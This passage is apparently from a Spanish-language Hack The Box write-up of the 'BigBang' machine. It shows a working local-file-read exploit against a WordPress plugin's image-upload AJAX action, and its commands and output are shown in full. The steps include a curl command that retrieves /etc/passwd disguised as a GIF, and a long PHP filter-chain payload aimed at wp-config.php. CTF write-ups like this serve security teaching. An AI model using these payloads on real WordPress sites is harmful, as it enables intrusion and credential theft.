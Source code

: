 ~~~ bash

{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1-29.png","attachment_id":184}
~~~

Si ahora descargamos el contenido de `1-34.png`, veremos el archivo `/etc/passwd`

~~~ bash
curl 'http://blog.bigbang.htb/wp-content/uploads/2025/05/1-29.png' -so test.png

cat test.png

GIF89aroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologi#
~~~

Logramos hacer que el servidor incluya recursos internos en la solicitud HTTP, y como estamos en Wordpress, intentaremos leer el archivo `wp-config.php`, ubicado un directorio atrás, recordemos que estamos haciendo la solicitud a `wp-admin/admin-ajax.php`

~~~ bash
curl http://blog.bigbang.htb/wp-admin/admin-ajax.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'action=upload_image_from_url&id=1&accepted_files=image/gif&url=php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=../wp-config.php' 

{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1-30.png","attachment_id":185}
~~~
